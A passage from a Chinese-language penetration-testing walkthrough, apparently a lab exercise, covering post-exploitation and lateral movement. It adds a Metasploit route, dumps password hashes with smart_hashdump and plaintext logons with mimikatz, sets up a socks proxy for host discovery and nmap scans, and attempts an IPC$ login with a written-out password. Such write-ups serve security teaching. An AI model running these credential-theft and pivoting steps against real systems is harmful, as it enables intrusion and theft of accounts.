 route add 内网 ip 子网掩码 session 的 id

route print 查看设置后的网段

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80LibLYkiaUBibHnpjHia9MyqhUDgSHNLRzfzNgiaTxfmZWIaUJ2tSNVEnXiaKOA/640?wx_fmt=png)

执行 runpost/windows/gather/smart_hashdump 命令获得系统内用户的 hash 值，以便用于 hash 传递：

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80LibDyrUfHSKflY6pdABc3eJPDJVTD5JdXY72kYP7jsiaepdDiaFyGZhH0uQ/640?wx_fmt=png)

Migrate 迁移进程后，Loadkiwi 加载 mimiatz，kiwi_cmdsekurlsa::logonpasswords 尝试使用其获取明文：

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80LibwsXPh6T4iciciaR4bmYGVPVlmWaEr66hcyhPBUJWUYr6u9icjldUuhVzZA/640?wx_fmt=png)

### **7.5 内网横移**

启动 socks 代理，sudovim /etc/proxychains.conf 修改 proxychains 配置文件，对 10.10.10.0\24 进行主机发现：

useauxiliary/server/socks_proxy

set srvport 22222

run

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80Lib7ZkOL4d8ribpKERO8LfxcDtXVgvZmF3opicZjib5UnRyV0EUJzMzicubgw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80Lib8anoKias6KfCXUwuMiaeL6nMCIyTSPibx8xEv5JC5viarut9v9ajibX1avw/640?wx_fmt=png)

```
proxychains fping -g 10.10.10.0/24
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80Libicylha6aEicv023aXXOb0geKpYw3fAgQZPLFaKBaibU4PXNoqL0VWvic6A/640?wx_fmt=png)

对所发现的 IP 进行端口扫描：

```
proxychains nmap -sC -A 10.10.10.143 -p80,53,1433,49154,6588,3389,135,21,51464,999
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80LibkG5H74LhKs7LRdwCZxCia4qedraia5XxdhcVj1RWqd0L3E1YMtKlRy6g/640?wx_fmt=png)

对所发现的主机进行 ipc 连接，报错 1326 用户名或密码错误：

```
netuse \\10.10.10.139\ipc$ "!@#Qwe123."/user:"localhost\administrator”
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80LibBWbnsUSjPnicf0c9bIhNTr0lMCCZDumtunB2c953vLcGPiaUY51EZLdg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80Lib0QuuAxoc9X1rkvhFBClyDgXAo3BhKqibcNHXaSNHolJ1IUILCywCCUw/640?wx_fmt=png)

翻看 net.test123.com 网站的目录可以找到其数据库的用户和密码：

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80LiboolSpgX9kqNDddic9csRQ2EYLbhGomcNhdBo7eic2pZEQyEJhk4GWHVQ/640?wx_fmt=png)

10.10.10.143 开启了 1433 端口，有 mssql 服务，可以使用上述密码登录服务器，也可以对 net.test123.com 进行子目录爆破，得到后台路径：http://net.test123.com/admin/index，再对后台进行相应挖掘：
